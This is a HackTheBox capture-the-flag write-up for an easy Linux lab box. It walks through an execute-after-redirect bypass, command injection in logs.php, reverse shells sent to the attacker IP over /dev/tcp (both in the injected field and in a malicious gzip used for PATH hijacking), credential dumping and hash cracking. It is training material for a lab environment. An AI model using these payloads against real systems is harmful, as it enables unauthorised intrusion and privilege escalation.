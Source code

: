 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.104
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts 10.10.11.104
```

---

## 🕵️ EAR Vulnerability (Execute After Redirect)
- Intercept `HTTP 302` redirect and change it to `200 OK` in Burp Suite.
- Burp ➝ Proxy ➝ Intercept Server Responses ➝ Enable ➝ Intercept Response ➝ Modify `302 Found` to `200 OK`

---

## 👤 Account Creation (via EAR Bypass)
- Navigate to `/accounts.php` using modified redirect bypass.
- Fill out user registration ➝ Login normally after creation.

---

## 📦 Download Site Source
- Navigate to `/files.php` and download `siteBackup.zip`
- Unzip to reveal all PHP source files.

---

## 🧪 Command Injection in [logs.php](HTTP.md)
### Without Source
- Interact with `file_logs.php`
- Modify POST request:
```bash
delim=comma;ping+-c+1+10.10.14.6
```

### With Source
```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

---

## ⚙️ Gaining Reverse Shell (as www-data)
```bash
# Listener
nc -lnvp 443

# Burp ➝ Intercept POST ➝ Modify
POST /logs.php

delim=comma;bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' #
```

### Shell Upgrade
```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
TERM=screen
```

---

## 🔍 Enumeration (as www-data)
```bash
cat /var/www/html/config.php
mysql -u root -p'mySQL_p@ssw0rd!:)'
```

### Dump User Hash
```sql
select * from accounts;
```

### Crack Hash
```bash
hashcat -m 500 m4lwhere.hash /usr/share/wordlists/rockyou.txt
```

---

## 🔐 Shell as m4lwhere (via SSH)
```bash
ssh m4lwhere@10.10.11.104
# password: ilovecody112235!
```

---

## 🔼 Root Escalation — Path Hijack
### Sudo Priv
```bash
sudo -l
```
```bash
(ALL) NOPASSWD: /opt/scripts/access_backup.sh
```

### Create Malicious gzip
```bash
cd /dev/shm
echo '#!/bin/bash' > gzip
echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' >> gzip
chmod +x gzip
export PATH=/dev/shm:$PATH

# Listener:
nc -lnvp 443

# Trigger
sudo /opt/scripts/access_backup.sh
```

---

## ✅ Root Access
```bash
cat /root/root.txt
```

---

## 📚 Resources
- EAR Ref: OWASP Execute After Redirect
- SQLi INSERT Exploit: George Koniaris video
- Beyond Root:
  - Misconfigured `/etc/sudoers`
  - `secure_path` omitted ➝ Path Hijack vulnerability
